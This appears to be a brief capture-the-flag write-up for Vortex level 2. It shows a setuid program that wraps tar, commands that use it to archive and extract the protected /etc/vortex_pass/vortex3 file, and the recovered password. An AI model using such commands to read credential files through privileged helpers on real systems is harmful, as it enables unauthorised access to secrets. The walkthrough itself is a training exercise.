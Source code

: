 vortex2.c:

#include <stdlib.h>
#include <stdio.h>
#include <sys/types.h>


int main(int argc, char **argv)
{
        char *args[] = { "/bin/tar", "cf", "/tmp/ownership.$$.tar", argv[1], argv[2], argv[3] };
        execv(args[0], args);
}

so we'll try to create a tar file with the level password...

Usage: tar [OPTION...] [FILE]...
GNU 'tar' saves many files together into a single tape or disk archive, and can
restore individual files from the archive.

Examples:
  tar -cf archive.tar foo bar  # Create archive.tar from files foo and bar.
  tar -tvf archive.tar         # List all files in archive.tar verbosely.
  tar -xf archive.tar          # Extract all files from archive.tar.

ls -la:
-r-sr-x---  1 vortex3  vortex2   7303 Nov  4 05:25 vortex2    

so we pass the password: /vortex/vortex2 /etc/vortex_pass/vortex3  
then we extract: tar -xvf  /tmp/ownership.\$\$.tar etc/vortex_pass/vortex3  

we get: 64ncXTvx#



